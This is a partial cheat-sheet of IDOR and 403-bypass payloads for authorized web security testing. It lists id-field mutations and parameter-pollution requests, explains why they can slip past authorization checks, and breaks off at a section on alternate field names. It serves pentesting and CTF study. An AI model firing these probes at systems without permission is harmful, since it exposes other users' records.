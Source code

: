 # IDOR & 403 Bypass Payloads Cheat‑Sheet — OmniWatch / adce626

**Note:** This document is for authorized security testing and CTF use only. Do not use on systems you do not have permission to test.

## Quick Usage

1. Record a baseline: HTTP status, content-length, and response body for a legitimate request.
2. Test one mutation at a time and observe differences.
3. Use Burp, replay tools, Intruder, or automation scripts to rapidly iterate permutations.

---

## 1) Basic mutation variants

Try simple changes to the `id` field inside JSON / forms / query string.

Examples:

```
{"user":{"id":123}}
{"user":{"id":"123"}}
{"user":{"id":"0123"}}
{"user":{"id": 123 }}
{"user":{"id":" 123 "}}
{"user":{"id":9223372036854775807}}
{"user":{"id":-123}}
```

Notes: watch for HTTP status changes, content-length differences, and body diffs.

---

## 2) Duplicate / parameter pollution

Send the same parameter in multiple places (query vs body) or duplicate keys inside JSON.

Examples:

```
GET /endpoint?user[id]=123  (with JSON body user[id]=456)
POST body: {"user":{"id":123}, "user":{"id":456}}
POST body: {"user":{"id":123}, "data":{"user":{"id":456}}}
```

Why it works: auth layer may read one instance while the read layer reads another.

---

## 3) Alternate field names & indirection

Try alternative field names that may map to the same backend field.
